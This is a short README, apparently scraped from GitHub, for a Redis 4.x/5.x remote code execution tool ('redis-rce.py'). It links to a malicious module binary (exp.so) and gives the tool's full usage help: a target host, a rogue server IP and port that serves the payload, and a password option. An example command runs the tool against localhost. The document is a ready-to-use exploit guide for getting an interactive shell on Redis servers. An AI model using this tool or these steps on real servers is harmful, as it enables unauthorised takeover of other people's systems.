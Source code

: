 # Redis RCE /Interactive Shell

## Usage:

Get exp.so from here  <https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so>.


```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so
```

Reference: https://github.com/Ridter/redis-rce/blob/master/README.md
